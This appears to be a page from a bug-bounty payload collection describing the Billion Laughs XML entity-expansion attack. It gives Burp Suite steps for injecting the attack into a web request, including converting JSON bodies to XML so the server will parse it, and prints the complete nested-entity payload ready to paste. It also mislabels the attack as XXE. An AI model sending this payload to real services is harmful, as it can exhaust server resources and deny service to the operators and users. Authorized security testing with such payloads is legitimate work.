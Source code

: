 # Billion Laugh Attack
- Another common vulnerability associated with XML parsing is called A Billion Laughs Attack. It uses an entity to resolve itself cyclically thereby consuming more CPU usage and causing a denial of service attack. An Example XML payload that can cause an XXE attack is as follows:

```
Step 1 : Capture the request into Burp
Step 2 : Send it to the repeater tab and then convert the body into XML whether it is accepting or not
Step 3 : To confirm, Check for the [ Accept ] Header change it into Application/json
Step 4 : Covert JSON into XML if their is no Possibility
Step 5 : Add the payload in between and change the content lol1 to lol9 depending on the dos variation in the xml field!
```

- Billion Laugh Payload :
```
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz> 
```

## Contributor:
- [N3T_hunt3r](https://twitter.com/N3T_hunt3r)
